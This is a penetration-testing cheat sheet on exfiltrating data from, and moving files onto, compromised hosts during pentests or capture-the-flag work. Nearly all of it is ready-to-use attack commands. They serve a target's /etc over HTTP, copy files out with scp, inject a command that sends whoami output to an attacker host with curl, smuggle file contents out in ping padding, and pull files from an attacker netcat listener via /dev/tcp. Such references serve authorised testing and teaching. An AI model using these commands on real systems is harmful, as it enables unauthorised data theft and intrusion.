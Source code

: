 # Data Exfiltration
In this module I will cover methods, applications, and syntax used for data exfiltration techniques that I have used during penetration testing or capture the flag.
## Python SimpleHTTPServer
If Python (2.x) is installed on the target system, you can simply start the [SimpleHTTPServer](https://www.pythonforbeginners.com/modules-in-python/how-to-use-simplehttpserver/) 
using the following command in whatever directory that you wish to share temporarily.
```
www-data@target-system:/etc# python -m SimpleHTTPServer 5432
```
And this will instantly share the files on the target system in `/etc` (as you see that is where I started the service) via HTTP on port `5432`
You can then use `wget` recursivley to pull all files found like so, from the attacker machine,
```
root@attacker-system:~/ctf/target/# wget -r http://(TARGET IP ADDRESS):5432 
```
## Python http.server
In Python 3, `SimpleHTTPServer` was merged with `http.server` and you can perform the same as we did in the previous version listing above with the syntax of,
```
www-data@target-system:~# python -m http.server 5432
```
## SCP (SSH)
If SSH is installed on the target system, we can simply use `scp` to exfiltrate data from the target server onto our attacker machine. First, we need to ensure that SSH is running on the attacker machine to accept the connection and file from the target.
Then, we can use the following syntax to transfer the file,
```
user@target-system:~$ scp -P (PORT OF SSH ON ATTACKER) (FILENAME) \
 (USER ON ATTACKER SYSTEM)@(ATACKER IP ADDRESS):/path/on/attacker/machine.extension
```
## HTTP Logs
If command injection is possible on the target server, but it's not possible to save files anywhere to create a shell (super-unprivileged user), we can use `curl` in combination with an interpolated command output to make an HTTP request to our local HTTP server on the attacker system as so,
```
ping 127.0.0.1;curl http://(ATTACKER IP ADDRESS)?username=$(whoami)
```
Then, in our local HTTP logs, we will see the output of `$(whoami)` as the `username` GET request parameter. 
## Using Ping for Data Exfiltration
To use Ping, we will use the `-c` arguemnt and specify 16 bytes to pad the ICMP request. First, we will break the file up into 16 byte chunks using `xxd` like so,
```
user@target-machine:~$ echo "Hello World. We will be exfiltrating this data." > file.out
user@target-machine:~$ xxd -p -c 16 file.out
48656c6c6f20576f726c642e20576520
77696c6c20626520657866696c747261
74696e67207468697320646174612e0a
```
Then, we start Wireshark on the attacker machine and listen for ICMP, using the `icmp` LibPCAP filter. Now, we simply use these 16 byte chunks and pad the ICMP requests to the attacker machine. We can script this like so,
```
user@target-machine:~$ for bytes in $(xxd -p -c 16 file.out); ping -c 1 -p $bytes (ATTACKER IP ADDRESS); done
```
In Wireshark, the hexadecimal bytes will be translated into ASCII. This can be cleaned up by using `tcpdump` on the attacker-machine and parse the ASCII/string output. 

# Data Infiltration
## FTP
You can use FTP for data infiltration on any OS system if you happen to find it installed on a target machine. Check out [/Post Exploitation/ftp.md](https://github.com/weaknetlabs/Penetration-Testing-Grimoire/blob/master/Post%20Exploitation/ftp.md) for more information on how to infiltrate data and binaries to a target system using FTP.
## /dev/tcp/
This new system allows us to interact with TCP. First, we simply start a listener on our attacker machine and feed it a file as so,
```
root@attacker-machine:~# nc -lvvp 666 < host-discov.sh 
```
Then, we simply cat the `/dev/tcp/` file descriptor for our attacker socket (ip:port) and redirect the output directly into a file or `tee` as so,
```
root@nodered:/tmp# cat < /dev/tcp/(ATTACKER IP ADDRESS)/666 > host-discov.sh
```
Notice the format, `/dev/tcp/` then the attacker IP address, and port separated by forward slashes as though it were a simple file.
